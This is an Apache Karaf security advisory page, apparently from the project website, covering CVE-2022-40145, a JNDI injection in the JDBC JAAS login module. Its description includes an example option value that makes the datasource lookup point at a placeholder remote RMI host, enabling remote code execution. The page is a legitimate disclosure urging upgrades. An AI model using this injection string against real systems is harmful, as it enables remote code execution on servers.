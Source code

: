 ```yaml
---
title: Apache Karaf security advisories
description: Security information for Apache Karaf
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache Karaf? Send your report to the  [Apache Security Team](mailto:security@apache.org).

# Advisories

This section is experimental: it provides advisories since 2023 and may lag behind the official CVE publications. If you have any feedback on how you would like this data to be provided, you are welcome to reach out on our public [mailinglist](/mailinglist) or privately on [security@apache.org](mailto:security@apache.org)
{.bg-warning}

## JDBC JAAS LDAP injection ## { #CVE-2022-40145 }

[CVE-2022-40145](./CVE-2022-40145.cve.json)

### Affected

* Apache Karaf from 4.4.0 before 4.4.2
* Apache Karaf before 4.3.8


### Description

<span style="background-color: rgb(255, 255, 255);">This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL.<br><br>The function jaas.modules.src.main.java.por</span><span style="background-color: rgb(255, 255, 255);">g.apache.karaf.jass.modules.</span><span style="background-color: rgb(255, 255, 255);">jdbc.JDBCUtils#doCreateDatasou</span><span style="background-color: rgb(255, 255, 255);">rce</span><br><span style="background-color: rgb(255, 255, 255);">use InitialContext.lookup(jndiName</span><span style="background-color: rgb(255, 255, 255);">) without filtering.<br>An user can modify&nbsp;</span><span style="background-color: rgb(255, 255, 255);">`options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE, "osgi:" +&nbsp;</span><span style="background-color: rgb(255, 255, 255);">DataSource.class.getName());` to `options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE,</span><span style="background-color: rgb(255, 255, 255);">"jndi:rmi://x.x.x.x:xxxx/Comma</span><span style="background-color: rgb(255, 255, 255);">nd");` in JdbcLoginModuleTest#setup.</span><br><br><span style="background-color: rgb(255, 255, 255);">This is vulnerable to a remote code execution (RCE) attack when a</span><br><span style="background-color: rgb(255, 255, 255);">configuration uses a JNDI LDAP data source URI when an attacker has</span><br><span style="background-color: rgb(255, 255, 255);">control of the target LDAP server.</span><p>This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7.</p>We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8

### References
* https://karaf.apache.org/security/cve-2022-40145.txt
